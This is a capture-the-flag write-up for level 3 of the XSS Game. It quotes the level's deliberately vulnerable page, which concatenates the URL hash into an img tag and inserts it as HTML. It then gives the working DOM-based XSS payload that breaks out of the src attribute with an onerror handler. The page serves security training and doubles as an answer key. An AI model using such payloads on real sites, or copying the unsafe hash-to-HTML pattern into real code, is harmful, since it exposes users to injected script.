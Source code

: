 ```yaml
---
title: Level 3 That sinking feeling...
edit_url: null
---
```


![1](https://github.com/user-attachments/assets/90bc719e-e4ad-4584-bb07-1e6d9be989df)

## Hints

> 1. To locate the cause of the bug, review the JavaScript to see where it handles user-supplied input.

> 2. Data in the `window.location` object can be influenced by an attacker.

> 3. When you've identified the injection point, think about what you need to do to sneak in a new HTML element.

> 4. As before, using `<script> ...` as a payload won't work because the browser won't execute scripts added after the page has loaded.

## Script

```html {17,20} showLineNumbers title="index.html"
<!doctype html>
<html>
  <head>
    <!-- Internal game scripts/styles, mostly boring stuff -->
    <script src="/static/game-frame.js"></script>
    <link rel="stylesheet" href="/static/game-frame-styles.css" />
 
    <!-- Load jQuery -->
    <script
      src="//ajax.googleapis.com/ajax/libs/jquery/2.1.1/jquery.min.js">
    </script>
 
    <script>
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
 
        window.location.hash = num;
 
        // Select the current tab
        var tabs = document.querySelectorAll('.tab');
        for (var i = 0; i < tabs.length; i++) {
          if (tabs[i].id == "tab" + parseInt(num)) {
            tabs[i].className = "tab active";
            } else {
            tabs[i].className = "tab";
          }
        }
 
        // Tell parent we've changed the tab
        top.postMessage(self.location.toString(), "*");
      }
 
      window.onload = function() { 
        chooseTab(unescape(self.location.hash.substr(1)) || "1");
      }
 
      // Extra code so that we can communicate with the parent page
      window.addEventListener("message", function(event){
        if (event.source == parent) {
          chooseTab(unescape(self.location.hash.substr(1)));
        }
      }, false);
    </script>
 
  </head>
  <body id="level3">
    <div id="header">
      <img id="logo" src="/static/logos/level3.png">
      <span>Take a tour of our cloud data center.</a>
    </div>
 
    <div class="tab" id="tab1" onclick="chooseTab('1')">Image 1</div>
    <div class="tab" id="tab2" onclick="chooseTab('2')">Image 2</div>
    <div class="tab" id="tab3" onclick="chooseTab('3')">Image 3</div>
 
    <div id="tabContent"> </div>
  </body>
</html>
```

In the source code we can see that the `num` variable is populated with the value of `window.location.hash`.

```
e.g.
URL: https://xss-game.appspot.com/level3/frame#1
num = 1
```

The value of `num` is then inserted into the source address of the image.

```
e.g.
num = 1
html += "<img src='/static/level3/cloud1.jpg' />";
```

## Payload

Since we can control the value of `window.location.hash`, we can control the source address of the image.

In order to solve this level, we can provide the following URI: 

```
https://xss-game.appspot.com/level3/frame#4' onerror=alert(1) ";
```

This will cause the source code to look as follows:

![2](https://github.com/user-attachments/assets/932a645a-9fe7-466f-8b8c-f620b1e4f704)

![3](https://github.com/user-attachments/assets/23e4f6c1-39bd-4b74-aaa9-7327aa06ebec)
